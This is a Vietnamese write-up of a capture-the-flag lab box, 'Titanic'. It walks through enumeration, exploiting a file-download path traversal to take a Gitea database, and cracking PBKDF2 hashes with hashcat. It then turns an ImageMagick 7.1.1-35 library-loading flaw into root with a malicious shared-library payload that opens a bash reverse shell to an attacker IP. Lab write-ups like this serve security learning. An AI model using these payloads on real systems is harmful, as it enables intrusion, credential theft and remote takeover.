# 1. Enumeration
Sử dụng nmap quét máy chủ mục tiêu 10.10.11.55

Máy chủ đang mở dịch vụ http cổng 80 chuyển hướng tới tên miền http://titanic.htb/  và dịch vụ  ssh cổng 22 
Thêm tên miền titanic.htb vào /etc/hosts 
Truy cập vào trang web tên miền titanic.htb 


Ta thấy wesite có chức năng gửi form và tự động tải về form đã nhập dưới dạng file json






Tiếp tục thu thập thông tin 
Sử dụng công cụ dirsearch quét các file thư mục  ẩn của trang web với từ điển mặc định


Sử dụng công cụ ffuf quét tên miền phụ ta nhận được miền phụ dev.titanic.htb


Thêm miền phụ dev.titanic.htb vào /etc/hosts 
Truy cập trang web của miền dev.titanic.htb


Trang web là một ứng dụng gitea ở đây ta thấy được phiên bản của gitea là version 1.22.1 . Ta tra thông tin về lỗ hổng của phiên bảng gitea version 1.22.1. Kết quả trả về chủ yếu về lỗ hổng XSS của phiên bản **1.22.0**

Đăng ký tài khoản trên  trang web và đăng nhập trang web . 

Trong mục Explore ta thu được 2 mục docker-config và flask-app 


Trong file git docker config ta tìm được thông tin cấu hình CSDL của website 


Ta đọc thư mục flash-app đây là source code của website miền titanic.htb
Trong file app.py ta tìm thấy lỗ hổng Local File Inclusion

Biến json_filepath khi đưa vào hàm send_file chưa được khử trùng -> Điều này dẫn đến ta có thể tải về các file nội bộ của website.  -> LOCAL FILE INCLUSUON
# 2. Exploit 
Ta thử với việc tải về file /etc/passwd và tải  thành công file /etc/passwd 


Trong thư mục gitea tìm thấy đường dẫn thư mục hiện tại của  gitea /home/developer/gitea/data:/data

Dựa trên đường dẫn hiện tại ta đọc được file user.txt trong đương dẫn /home/developer/user.txt

Tiếp tục đọc được file app.ini thông qua đường dẫn /home/developer/gitea/data/gitea/conf/app.ini
Ta đọc file app.ini là file chứa cấu hình cài đặt ứng dụng ta tìm được file cơ sở dữ liệu nằm tại đường dẫn /data/gitea/gitea.db


Ta tải file gitea.db về 



Sử dụng sqlite browser để mở file *.db 


Ta tìm được username và password đang được mã hóa bằng thuật toán pbkdf trong bảng user
Ta tìm được cách giải mã thuật toán pbkdf qua bài này 
https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes
Và script code để chuyển hóa về dạng chuẩn của thuật toán pbkdf 
https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py
Ta crack password của developer
Với password crack : e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
Và salt = 8bf3e3452b78544f8bee9400d6936d34

```bash
python3 gitea2hashcat.py "8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56"
```


Tương tự  ta thu được định dạng đúng chuẩn của PBKDF2 của tài khoản admin


Lưu password đúng chuẩn hashcat vào file password.txt
Và sử dụng hashcat để crack mật khẩu 
```bash
hashcat -m 10900 Password.txt /usr/share/wordlists/rockyou.txt
```



Ta crack thành công mật khẩu của  user : developer



Ta sử dụng username : developer và password : 25282528

# 3. Foothold

Tìm kiếm các file thư mục ta có quyền ghi trong đường dẫn otp





Tìm kiếm về ImageMagick 7.1.1-35 ta tìm được một lỗ hổng bảo mật 
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8


Đúc kết được qua bài đọc về lỗ hổng
Hiểu cơ bản về lỗ hổng này : Khi chạy AppImage ( version 7.1.1-35 của ImageMagick) mà không thiết lập các biến môi trường MAGICK_CONFIGURE_PATH và LD_LIBRARY_PATH . 
Kết quả khi ImageMagick thực thi do không thiết lập các biến môi trường thì đường dẫn sẽ trống trong các biến môi trường và ImageMagick sẽ coi thư mục hiện tại thay thế cho đường dẫn trống 
Nó sẽ  tìm kiếm tệp cấu hình hoặc thư viện chia sẻ trong thư mục hiện tại để tải 
Vì vậy, nếu kẻ tấn công có thể kiểm soát tệp trong thư mục làm việc hiện tại trong khi tệp ImageMagickđang thực thi, điều này có thể dẫn đến việc thực thi mã tùy ý bằng cách tải tệp cấu hình độc hại hoặc thư viện dùng chung.
Cụ thể hơn ở đây ta có toàn quyền kiểm soát các file trong thư mục /opt/app/static/assets/images và /opt/app/tickets
Đoạn code khai thác : 

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```
Ở đây ta có thư viện chia sẻ libxcb.so.1 được đặt trong đường dẫn /opt/app/static/assets/images
Ta chạy magick trong đường dẫn thì nó sẻ tải thư viện libxcb.so.1 
Và khi thư viện được tải sẽ chạy lệnh hệ thống tạo ra 1 bản sao của file root.txt tại đường dẫn hiện tại từ file root.txt ở đường dẫn /root/root.txt và cấp quyền để mọi người dùng đều có quyền đọc file root.



# 4. Privilege Escalation
Tận dụng lỗ hổng ta có thể nâng được lên quyền root 
Thông qua payload 

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("/bin/bash -c 'bash -i >&/dev/tcp/10.10.16.11/293 0>&1'");
    exit(0);
}
EOF
```

Lắng nghe trên cổng 293 
Và ta thực thi payload 



Trên máy tấn công ta đã thu được reverse shell 


